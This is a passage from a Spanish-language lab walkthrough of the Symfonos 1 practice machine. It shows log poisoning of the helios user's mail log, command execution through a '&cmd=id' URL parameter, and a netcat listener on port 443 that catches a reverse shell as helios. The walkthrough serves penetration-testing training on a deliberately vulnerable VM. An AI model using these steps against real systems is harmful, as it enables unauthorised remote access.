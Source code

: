 ```ruby
Connection closed by foreign host.
```

Verificamos el log del usuario helios y comprobamos que nuestro código está presente

<img src="/assets/VH/Symfonos1-Symfonos2/poison.png">

Agregando `&cmd=id` a la url logramos ejecutar el comando `id` en la máquina víctima

<img src="/assets/VH/Symfonos1-Symfonos2/rce.png">

Nos ponemos en escucha en el puerto 443 y ejecutamos oneliner para entablar una reverse shell

<img src="/assets/VH/Symfonos1-Symfonos2/revshell.png">

```ruby
❯ sudo nc -nlvp 443
[sudo] password for yorch: 
listening on [any] 443 ...
connect to [192.168.1.148] from (UNKNOWN) [192.168.1.150] 41714
bash: cannot set terminal process group (571): Inappropriate ioctl for device
bash: no job control in this shell
bash-4.4$ whoami
whoami
helios
```
